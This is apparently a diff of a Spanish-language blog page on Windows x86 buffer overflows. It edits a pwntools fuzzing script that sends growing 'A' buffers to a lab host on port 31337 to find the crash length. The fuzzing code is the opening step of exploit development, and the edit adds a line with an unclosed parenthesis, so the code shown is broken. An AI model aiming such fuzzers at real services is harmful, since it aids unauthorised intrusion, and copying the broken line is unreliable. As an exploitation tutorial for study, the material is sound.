

Before and after one commit to henryp911/gg-new.github.io, a Jekyll site: the page otros/bof_windows_x86/index.html, which Jekyll copies as it is, in a window 1280 px wide and 900 px high, scrolled down 1853 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update index.html

```diff
--- a/otros/bof_windows_x86/index.html
+++ b/otros/bof_windows_x86/index.html
@@ -119,8 +119,11 @@ counter </span><span class="kd">=</span><span class="na"> 100
 <div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight">
 <code><span class="c1">#!/usr/bin/python3
 </span><span class="kd">from </span><span class="p">pwn </span><span class="kd">import </span><span class="p">log, socket, time
+
 buffer </span><span class="kd">=</span><span class="p"> [</span><span class="k">b</span><span class="s2">""</span><span class="p">]
 counter </span><span class="kd">=</span><span class="na"> 100
+
+bar </span><span class="kd">=</span><span class="p"> log.progress("")
 
 </span><span class="kd">while </span><span class="k">len</span><span class="p">(buffer) </span><span class="kd">< </span><span class="na">32</span><span class="p">:
     buffer.append(</span><span class="k">b</span><span class="s2">"A"</span><span class="kd"> *</span><span class="p"> counter)
@@ -133,6 +136,7 @@ for</span><span class="p"> strings</span><span class="kd"> in</span><span class=
 
         shell </span><span class="kd">=</span><span class="p"> socket.socket(socket.AF_INET, socket.SOCK_STREAM)
         shell.connect((</span><span class="s2">"192.168.204.1"</span><span class="p">, </span><span class="na">31337</span><span class="p">))
+        shell.recv(1024
 
         shell.send(strings </span><span class="kd">+</span><span class="k"> b</span><span class="s2">"\r\n"</span><span class="p">)
 
@@ -140,7 +144,7 @@ for</span><span class="p"> strings</span><span class="kd"> in</span><span class=
         shell.close()
 
     </span><span class="kd">except</span><span class="p">:
-        log.success(</span><span class="k">f</span><span class="s2">"El programa se detuvo al enviar: {len(strings)} bytes"</span><span class="p">)
+        bar.success(</span><span class="k">f</span><span class="s2">"El programa se detuvo al enviar: {len(strings)} bytes"</span><span class="p">)
         exit()</span>
 </code></pre></div></div><br>
 
```
